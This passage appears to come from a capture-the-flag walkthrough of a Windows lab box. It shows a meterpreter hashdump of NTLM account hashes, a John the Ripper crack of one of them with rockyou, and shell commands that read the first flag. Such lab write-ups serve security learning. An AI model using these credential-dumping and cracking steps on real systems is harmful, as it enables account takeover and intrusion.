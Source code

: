 <br />
Run the hashdump command to get a list of the hashes.

{% raw %}
```bash
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
```
{% endraw %}

<br />
Use john the ripper to crack the dumped permission.

{% raw %}
```bash
┌──(sec㉿kali)-[~]
└─$ john --format=nt --wordlist=/usr/share/wordlists/rockyou.txt ntlmpass2 
Using default input encoding: UTF-8
Loaded 2 password hashes with no different salts (NT [MD4 256/256 AVX2 8x3])
Remaining 1 password hash
Warning: no OpenMP support for this hash type, consider --fork=4
Press 'q' or Ctrl-C to abort, almost any other key for status
alqfna22         (?)     
1g 0:00:00:00 DONE (2025-01-07 02:40) 1.369g/s 13973Kp/s 13973Kc/s 13973KC/s alr19882006..alpusidi
Warning: passwords printed above might not be all those cracked
Use the "--show --format=NT" options to display all of the cracked passwords reliably
Session completed.
```
{% endraw %}

<br />
Get the first flag.

{% raw %}
```bash
C:\Windows\system32>cd C:\
cd C:\

C:\>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is E611-0B66

 Directory of C:\

03/17/2019  01:27 PM                24 flag1.txt
07/13/2009  09:20 PM    <DIR>          PerfLogs
04/12/2011  02:28 AM    <DIR>          Program Files
03/17/2019  04:28 PM    <DIR>          Program Files (x86)
12/12/2018  09:13 PM    <DIR>          Users
03/17/2019  04:36 PM    <DIR>          Windows
               1 File(s)             24 bytes
               5 Dir(s)  20,609,130,496 bytes free

C:\>type flag1.txt
type flag1.txt
<redacted>
C:\>ipconfig
ipconfig

Windows IP Configuration


Ethernet adapter Local Area Connection 2:

```